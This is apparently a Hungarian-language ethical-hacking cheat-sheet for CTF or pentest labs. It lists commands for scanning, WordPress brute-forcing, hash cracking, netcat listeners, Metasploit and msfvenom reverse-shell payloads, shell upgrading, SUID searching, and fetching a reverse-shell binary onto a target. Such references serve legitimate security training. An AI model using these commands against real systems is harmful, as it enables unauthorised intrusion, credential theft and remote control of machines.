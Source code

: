 # Etikus hackelés cheat-sheet

## Alapvető paracsok:

- `ping $RHOST`
- `sudo nmap -sS -sV -O -sC $RHOST` esetleg, ha ismerjük (-p PORT)
- `gobuster dir -u http://$RHOST -w /usr/share/wordlists/dirb/common.txt` vagy `/usr/share/wordlists/dirb/big.txt`
  Gobuster helyett lehet dirb-t is használni: `dirb http://$RHOST {megfeleő szólista} (-r)`, ahol a -r kikapcsolja a rekurzív keresést

## Wordpress esetén:

- `wpscan --url http://$RHOST --userames {filename} --passwords {filename}` -(itt lehet használni pl.: usr/share/wordlists/rockyou.txt)
- Ha kapunk egy hash-t:
- Hash típusának meghatározása: `hash-identifier`
- Hash feltörése: `john {filename} --format={az előbb meghatározott típus, pl.: raw-md5} --wordlists=/usr/share/wordlists/dirb/rockyou.txt`

## Netcat listener készítése:

- `nc -lvnp 5555` (5555=PORT, ez lehet más is)

## Msfconsole multi/handler:

- `>> set payload linux/x64/meterpreter_reverse_tcp`
- `set lhost $LHOST`
- `set rhost $RHOST`
- `set lport 5555`
- `run`

#### Ha kaptunk meterpreter shell-t, akkor egyszerűen az `upload` és `download` parancsokat használhatjuk

## Interaktív shell készítése:

- Ha van python a célgépen: `python -c "import pty; pty.spawn('/bin/bash')"`, de más eszközök is rendelkezésre állnak a gépen elérhető programok függvényében pl.: `perl`. Ha találunk valami ilyesmit, akkor érdemes lecsekkolni a [gtfobins](https://gtfobins.github.io/#python)-en.

## SUID bitek keresése:

- `find / -perm /u=s 2>/dev/null`

## Shell kódok készítése msfvenommal:

- `msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=$LHOST RHOST=$RHOST LPORT=5555 -f elf > revshell.elf`
- Ha pl. windowsos célgépet támadunk akkor az .elf kiterjesztés helyett a .exe kiterjesztést használjuk.

## SSH alapok:

- Eszközhöz való csatlakozás: `ssh -p PORT username@$RHOST`
- Eszközhöz való csatlakozás privát kulcs használatával: `ssh -p PORT -i {privát kulcs} username@$RHOST`, viszont ekkor a privát kulcs publikus párjána szerepelnie kell a felhasználó `~/.ssh/authorized keys` fájljában.

## Privát kulcs készítése:

- `openssl genpkey –algorithm RSA -pkeyopt rsa_keygen_bits:2048 > privat.pem` vagy `ssh-keygen -t rsa -b 2048`

## Publikus kulcs készítése privátból:

- `ssh-keygen -f privat.pem -y > publikus.pub`

## Python szerver:

- `python3 -m http.server`
- Letöltés a szerverről: `wget http://$RHOST:8000/revshell.elf`

## A sudo parancs:

- `sudo -l`
- Futtatás más felhasználó nevében (pl.: SUID bitünk van): `sudo -u username ...parancsok`

## Szkriptelés:

- Szkriptek elejére: `#!/bin/zsh` vagy `#!/bin/bash`
- Hasznos oldal lehet még a [pentestmonkey](https://pentestmonkey.net/category/cheat-sheet) is
